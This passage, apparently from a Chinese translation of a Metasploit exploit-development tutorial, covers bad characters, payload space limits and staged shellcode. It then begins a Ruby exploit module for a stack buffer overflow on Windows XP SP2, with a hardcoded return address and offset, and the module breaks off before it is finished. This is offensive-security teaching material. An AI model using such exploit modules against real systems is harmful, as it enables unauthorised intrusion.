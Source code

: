 上述部分摘自`/exploit/windows/ftp`目录下的`freeftpd_user.rb`文件。列出的选项表明有效载荷的空间应小于`800`字节，并且有效载荷应避免使用`0x00`、`0x20`、`0x0a`和`0x0d`，分别是空字节、空格、换行和回车。

有关查找坏字符的更多信息，请访问：[`resources.infosecinstitute.com/stack-based-buffer-overflow-in-win-32-platform-part-6-dealing-with-bad-characters-jmp-instruction/`](http://resources.infosecinstitute.com/stack-based-buffer-overflow-in-win-32-platform-part-6-dealing-with-bad-characters-jmp-instruction/)。

# 确定空间限制

`Payload 字段`中的`Space`变量定义了用于 shellcode 的总大小。我们需要为`Payload`分配足够的空间。如果`Payload`很大，而分配的空间小于有效载荷的 shellcode，它将无法执行。此外，在编写自定义利用时，shellcode 应尽可能小。我们可能会遇到这样的情况，即可用空间仅为 200 字节，但可用 shellcode 至少需要 800 字节的空间。在这种情况下，我们可以将一个较小的第一阶段 shellcode 放入缓冲区中，它将执行并下载第二个更大的阶段以完成利用。

对于各种有效载荷的较小 shellcode，请访问：[`shell-storm.org/shellcode/`](http://shell-storm.org/shellcode/)。

# 编写 Metasploit 利用模块

让我们回顾一下我们的利用过程图表，并检查我们是否可以完成模块：

![](img/b076501b-a46d-4a63-91ea-1e5a96a8bf9a.png)

我们可以看到我们拥有开发 Metasploit 模块的所有基本要素。这是因为在 Metasploit 中，有效载荷生成是自动化的，并且也可以随时更改。所以，让我们开始吧：

```
class MetasploitModule < Msf::Exploit::Remote 
  Rank = NormalRanking 

  include Msf::Exploit::Remote::Tcp 

  def initialize(info = {}) 
    super(update_info(info, 
      'Name'                 => 'Stack Based Buffer Overflow Example', 
      'Description'    => %q{ 
         Stack Based Overflow Example Application Exploitation Module 
      }, 
      'Platform'             => 'win', 
      'Author'         => 
        [ 
          'Nipun Jaswal' 
        ], 
      'Payload' => 
      { 
      'space' => 1000, 
      'BadChars' => "\x00\xff", 
      }, 
      'Targets' => 
       [ 
             ['Windows XP SP2',{ 'Ret' => 0x71AB9372, 'Offset' => 520}] 
       ], 
      'DisclosureDate' => 'Mar 04 2018' 
   )) 
   register_options( 
```
